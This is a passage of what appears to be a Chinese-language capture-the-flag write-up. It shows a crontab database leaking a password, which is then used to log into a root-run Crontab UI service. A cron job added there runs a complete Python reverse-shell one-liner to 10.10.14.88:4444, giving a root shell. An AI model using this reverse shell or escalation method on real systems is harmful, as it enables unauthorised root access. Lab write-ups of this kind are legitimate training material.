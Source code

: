 ```shell
enzo@planning:/opt/crontabs$ cat crontab.db | jq
```

```json
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
```

### Utilizing Crontab UI Service

使用從 `crontab.db` 中找到的密碼 `P4ssw0rdS0pRi0T3c` 成功登入 port 8000 的服務後，發現這是一個名為 Crontab UI 的網頁服務，用於管理系統上的定時任務。由於這個服務以 root 權限運行，我們可以利用它來執行任意命令。在這裡透過新增 reverse shell 的 cron job 來取得 root 權限的 shell。

```shell
python3 -c 'import os,socket,subprocess;s=socket.socket();s.connect(("10.10.14.88",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];subprocess.call(["/bin/bash","-i"])'
```

新增完成後按下 `Run now`，就可以透過監聽 port 4444 取得 root reverse shell。在 `/root` 目錄中輕鬆拿到了 root flag。
